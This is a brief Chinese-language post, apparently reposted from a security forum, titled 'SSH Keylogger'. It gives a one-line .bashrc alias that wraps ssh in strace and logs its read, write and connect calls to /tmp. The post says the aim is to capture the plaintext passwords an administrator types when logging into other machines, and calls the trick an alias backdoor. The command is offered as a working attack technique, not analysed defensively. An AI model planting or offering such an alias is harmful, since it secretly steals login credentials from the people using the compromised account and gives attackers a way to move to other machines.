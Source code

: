 # SSH Keylogger

> 原文：[https://www.zhihuifly.com/t/topic/3488](https://www.zhihuifly.com/t/topic/3488)

# SSH Keylogger

利用strace系统调试工具获取ssh的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。

在当前用户的.bashrc里新建一条alias、这样可以抓取他登陆其他机器的ssh密码。算是alias后门。后面会在讲一下alias后门。

```
alias ssh='strace -o /tmp/sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh' 
```

![image](img/6524da1cacb573bd014f46fd3e65b06e.png)

![image](img/634f2f56762d106f5fcf9343cf97ce44.png)